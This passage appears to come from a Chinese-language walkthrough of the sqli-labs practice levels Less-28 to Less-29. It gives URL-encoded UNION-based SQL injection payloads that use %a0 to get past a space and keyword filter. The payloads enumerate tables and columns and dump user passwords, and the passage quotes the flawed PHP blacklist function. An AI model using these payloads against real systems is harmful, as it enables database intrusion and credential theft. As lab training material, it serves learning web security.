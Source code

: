?id=100')union%a0select%a01,(select%a0group_concat(table_name)%a0from%a0information_schema.tables%a0where%a0table_schema='security'),3||('1

![image-20201111150827605](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111150827605.png)

?id=100')union%a0select%a01,(select%a0group_concat(column_name)%a0from%a0information_schema.columns%a0where%a0table_name='users'),3||('1

![image-20201111150944947](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111150944947.png)

?id=100')union%a0select%a01,(select%a0group_concat(password)%a0from%a0security.users),3||('1

![image-20201111151554326](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111151554326.png)

## 0X20Less-28a

```
function blacklist($id)
{
//$id= preg_replace('/[\/\*]/',"", $id);                //strip out /*
//$id= preg_replace('/[--]/',"", $id);                //Strip out --.
//$id= preg_replace('/[#]/',"", $id);                    //Strip out #.
//$id= preg_replace('/[ +]/',"", $id);                //Strip out spaces.
//$id= preg_replace('/select/m',"", $id);                    //Strip out spaces.
//$id= preg_replace('/[ +]/',"", $id);                //Strip out spaces.
$id= preg_replace('/union\s+select/i',"", $id);        //Strip out spaces.
return $id;
}

$id=$_GET['id'];
$id= blacklist($id);
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
//print_r(mysql_error());
```

本关与less28基本一致，只是过滤条件少了几个。

?id=100')union%a0select 1,database(),3||('1



## 0X21Less-29

同less-2

![image-20201111153119637](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111153119637.png)



考点 绕waf

参数污染

![image-20201111153726731](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20201111153726731.png)
